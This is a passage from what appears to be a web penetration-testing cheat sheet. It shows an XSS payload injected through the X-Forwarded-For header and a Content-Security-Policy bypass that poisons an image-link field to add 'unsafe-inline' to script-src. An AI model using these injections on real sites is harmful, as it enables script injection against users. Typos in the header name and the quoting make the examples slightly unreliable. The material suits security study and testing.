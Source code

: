 ***

* We can inject JavaScript code, so when this function is triggered, the payload will be executed

{% code title="Example Request" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```http
GET http://$url HTTP/1.1
host: host
X-Forwarded-For: <img src=x onerror='alert("HACKED")'/>
...
```
{% endcode %}

### <mark style="color:orange;">Content Security Policy Bypass</mark>

The `Content-Security-Policy` header defines rules for the validation of certain requests or inputs on an application. To bypass this verification we can modify the rules by poisoning our input.

Here we find an example of this scenario:

* A site lets us upload an image by entering the link of the location, and this process is validated with the security policy.

{% code title="Example Response" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```http
HTTP/1.1 200 OK
host: host
Content-Security-Polic: img-src 'self' /src/image script-src 'self' $RestOfPolicy
...
```
{% endcode %}

***

* We can poison the input by adding a modified configuration for the security policy header, and after this, the other functions of the app where the security policy is applied will not be filtered properly, allowing us to use injections.

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
$input script-src 'unsafe-inline" 'self' $RestOfPolicy   #Fill on the image link
```
{% endcode %}
